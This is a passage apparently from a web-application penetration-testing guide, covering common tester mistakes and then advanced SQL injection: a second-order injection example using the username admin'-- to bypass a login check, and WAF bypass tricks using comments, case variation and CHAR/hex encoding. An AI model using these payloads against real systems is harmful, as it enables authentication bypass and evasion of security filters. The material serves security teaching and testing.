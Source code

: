 #### 8. Ignoring Edge Cases
**Mistake:** Not testing different scenarios and edge cases
**Solution:**
- Test different file types for uploads
- Try various encoding methods
- Test both Linux and Windows payloads

#### 9. Poor Payload Crafting
**Mistake:** Using incorrect payload formats or encoding
**Solution:**
- Understand different encoding methods
- Test payload variations
- Verify payload execution

#### 10. Missing Business Logic Flaws
**Mistake:** Focusing only on technical vulnerabilities
**Solution:**
- Understand application workflow
- Test business logic assumptions
- Look for workflow bypasses

---

## Advanced Techniques {#advanced}

### Advanced SQL Injection Techniques

#### Second-Order SQL Injection
```sql
# Register user with malicious payload in username
username: admin'--
password: anything

# Login triggers the injection in different context
SELECT * FROM users WHERE username = 'admin'--' AND password = 'hash'
```

#### WAF Bypass Techniques
```sql
# Comment variation bypasses
/**/ instead of spaces
/*comment*/SELECT/*comment*/
/*!50000SELECT*/

# Case variation
SeLeCt, UnIoN, WhErE

# Encoding bypasses
CHAR(65,68,77,73,78) instead of 'ADMIN'
HEX encoding: 0x41444D494E
```
